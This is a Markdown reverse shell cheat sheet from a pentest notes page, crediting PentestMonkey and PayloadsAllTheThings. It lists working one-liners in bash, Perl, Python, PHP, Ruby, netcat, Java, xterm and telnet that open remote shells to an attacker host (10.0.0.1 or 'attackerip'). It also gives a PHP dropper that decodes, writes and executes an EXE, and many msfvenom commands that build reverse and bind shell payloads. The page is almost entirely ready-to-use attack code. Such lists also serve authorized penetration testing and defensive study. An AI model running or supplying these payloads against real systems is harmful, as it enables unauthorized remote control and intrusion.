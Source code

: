 ```yaml
---
layout: commands
title: Reverse Shells
date: 2020-08-13
preview: Cheatsheet for reverse shells
categories: 
    - "commands"
    - "pentest"
    - "enumeration"
---
```


# Reverse Shells

Credits to PentestMonkey - [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Another great resource - [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Perl

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

### Python 2

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python 3

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

### Linux

```bash
php -r '$sock=fsockopen("10.0.0.1",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Windows

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 EXITFUNC=thread -f exe | base64 -w 0
```

Create shell.php (Or whatever you want to call it!)

```bash
<?php
header('Content-type: text/plain');
$payload = "OUTPUT FROM ABOVE COMMAND";
$evalCode = base64_decode($payload);
$filename = "s.exe";
$file = fopen($filename, 'wb');
fwrite($file, $evalCode);
fclose($file);
$path = $filename;
$cmd = $path.$evalArguments;
$res .= "\n\nExecuting : ".$cmd."\n";
echo $res;
$output = system($cmd);
?>
```

## Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",9001).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

### Linux

```bash
nc -e /bin/sh 10.0.0.1 9001
```

Net cat reliable

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 9001 >/tmp/f
```

### Windows

cmd.exe

```bash
nc -e cmd.exe 10.0.0.1 9001
```

powershell.exe

```bash
nc -e powershell.exe 10.0.0.1 9001
```

## Java

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/9001;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


## Xterm

```bash
xterm -display 10.0.0.1:1
```

## Telnet

### Linux

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
```

### Windows

```bash
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
```

\# Remember to listen on your machine also on port 4445/tcp


# Metasploit payloads

## Windows to netcat

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f c -e x86/shikata_ga_nai -b <BADCHARS>
```

## Javascript

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -f js_le -e generic/none
```

## Windows EXE

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 EXITFUNC=thread -f exe > shell.exe
```

## Unix Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=10.0.0.1 LPORT=9001 -f raw > shell.pl
```

## Unix

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=10.0.0.1 LPORT=9001 -f raw > web/shell.sh
```

## Linux Bind

```bash
msfvenom -p linux/x86/shell_bind_tcp LPORT=9001 -f c -b "<BADCHARS>" --platform linux -a x86 -e x86/shikata_ga_nai
```

## Windows Powershell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -f psh
```

## C Alpha Numeric

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$TARGETIP LPORT=<PORT> -f c -e x86/alpha_mixed -b "<BADCHARS>"
```

## ASP

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -f asp > sc.asp
```

# WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -f war > shell.war
```

